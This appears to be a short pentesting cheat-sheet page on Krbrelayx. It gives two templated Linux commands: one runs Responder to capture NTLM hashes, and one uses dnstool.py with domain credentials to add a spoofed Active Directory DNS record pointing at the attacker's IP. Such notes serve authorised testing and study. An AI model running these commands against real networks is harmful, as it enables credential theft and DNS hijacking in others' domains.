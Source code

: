```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Dns Spoofing", "Krbrelayx", "Dnstools", "Active Directory", "Windows", "DNS", "Ntlm"]
---
```


### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Capture NTLM hash
sudo responder -I tun0
```

```console
python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' --action add --record <TARGET_RECORD> --data <LOCAL_IP> <TARGET_IP>
```

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}
